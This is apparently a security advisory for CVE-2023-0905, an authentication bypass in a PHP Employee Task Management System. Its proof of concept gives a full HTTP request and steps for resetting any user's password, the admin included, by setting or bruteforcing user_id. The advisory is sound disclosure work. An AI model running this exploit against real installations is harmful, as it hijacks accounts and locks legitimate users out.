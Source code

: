 # Employee Task Management System - Broken Authentication leads to compromise of all application accounts by changing the password

### Date: 
> 17 February 2023

### CVE Assigned:
**[CVE-2023-0905](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0905)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0905), [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0905)

### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Employee Task Management System](https://www.sourcecodester.com/php/15383/employee-task-management-system-phppdo-free-source-code.html)
### Version:
> v 1.0
### Broken Authentication:
> Broken authentication occurs when the authentication mechanisms in a web application are not implemented correctly, allowing an attacker to bypass them and gain unauthorized access to the application's features and resources. If an attacker is able to exploit broken authentication and gain access to a user's account, they may be able to change the account password, effectively locking the legitimate user out of the system. This is particularly dangerous because if the attacker can compromise one user account, they may be able to use that account to gain access to other accounts and escalate their privileges, potentially compromising the entire system.
### Affected Page:
> changePasswordForEmployee.php

> On this page, application isn't verifying the authentication/authorization mechanism. Due to that, all the parameters are vulnerable to broken authentication.

### Description:
> Broken Authentication allows unauthenticated remote attacker to change password of all application users

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: changePasswordForEmployee.php
2. Type any random password which needs to update against any user id and submit
3. Intercept that request through Burp Suite
4. Request:
```
POST /etms/changePasswordForEmployee.php HTTP/1.1
Host: localhost
Content-Length: 277
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/etms/changePasswordForEmployee.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntknjcf821q2u3h85c14qo1r91
Connection: close

user_id=%3Cbr+%2F%3E%0D%0A%3Cb%3EWarning%3C%2Fb%3E%3A++Undefined+variable+%24user_id+in+%3Cb%3EC%3A%5Cxampp%5Chtdocs%5Cetms%5CchangePasswordForEmployee.php%3C%2Fb%3E+on+line+%3Cb%3E34%3C%2Fb%3E%3Cbr+%2F%3E%0D%0A&password=admin%23123&re_password=admin%23123&change_password_btn=
```
5. because the "user_id" parameter is not set due to missing authentication, so we need to set the user_id manually. By default user_id 1 is for admin and we can use intruder to bruteforce this step with incremental value. Whenever the server will find the correct user_id, it will change the password and log in to the application.
6. Successful exploit screenshots are below (without cookie parameter)

![image](https://user-images.githubusercontent.com/123810418/219798138-747388d7-378b-4d1b-9862-1356e52a0c72.png)

![image](https://user-images.githubusercontent.com/123810418/219798264-f04bcda9-a833-4010-a40b-076a38199938.png)

![image](https://user-images.githubusercontent.com/123810418/219798299-5ba92752-d218-4aaa-b123-5258df37ce38.png)

7. Vulnerable Code Snippets:

![image](https://user-images.githubusercontent.com/123810418/219799518-50d3eb1a-0091-4229-b7d0-7621d79cc168.png)

![image](https://user-images.githubusercontent.com/123810418/219799657-42b9a71c-539c-4e91-bec8-0d7fd40cb3ed.png)

### Recommendation:
> Whoever uses this CMS, should update the authentication and authorization mechanism on top of the changePasswordForEmployee.php as per their requirement to avoid a Broken Authentication attack:

